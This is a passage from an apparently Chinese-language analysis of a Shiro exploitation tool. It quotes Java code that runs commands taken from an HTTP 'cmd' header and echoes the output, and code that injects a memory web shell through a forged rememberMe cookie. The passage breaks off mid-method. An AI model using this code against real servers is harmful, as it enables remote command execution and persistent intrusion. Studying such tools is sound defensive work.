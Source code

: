       18.             if(req!=null&&resp!=null){
    
      19.                 try {
    
      20.                     PrintWriter os = resp.getWriter();
    
      21.                     Process proc = Runtime.getRuntime().exec(req.getHeader("cmd"));
    
      22.                     proc.waitFor();
    
      23.                     Scanner scanner = new Scanner(proc.getInputStream());
    
      24.                     scanner.useDelimiter("\\A");
    
      25.                     os.print("Test by fnmsd "+scanner.next());
    
      26.                     os.flush();
    
      27.                 }catch (Exception e){
    
      28.                 }
    
      29.                 return;
    
      30.             }
    
      31.             //继续遍历
    
      32.             Find(obj,depth+1);
    
      33.         }
    
      34.     }
    
    
    

### 内存马

由于注入内存马的代码量比较大，直接将数据带到请求头中会导致请求头过大而注入失败，所以这里作者将实际内存马的内容和注入的代码分开，post的参数dy中才是真正注入内存马的代码。

    
          1. public void injectMem(String memShellType, String shellPass, String shellPath) {
    
      2.     //获取rememberMe的内容，这里传入的回显类是InjectMemTool，也就是InjectMemTool的字节码将会被放到TemplateImpl->_bytecodes属性中
    
      3.         String injectRememberMe = this.GadgetPayload(gadget, "InjectMemTool", realShiroKey);
    
      4.         if (injectRememberMe != null) {
    
      5.                //请求头中传入shell密码和路径。
    
      6.             HashMap<String, String> header = new HashMap();
    
      7.             header.put("Cookie", injectRememberMe);
    
      8.             header.put("p", shellPass);
    
      9.             header.put("path", shellPath);
    
      10.             try {
    
      11.                 //根据内存马的类型得到对应的字节码，base64后传给dyv参数。
    
      12.                 String b64Bytecode = MemBytes.getBytes(memShellType);
    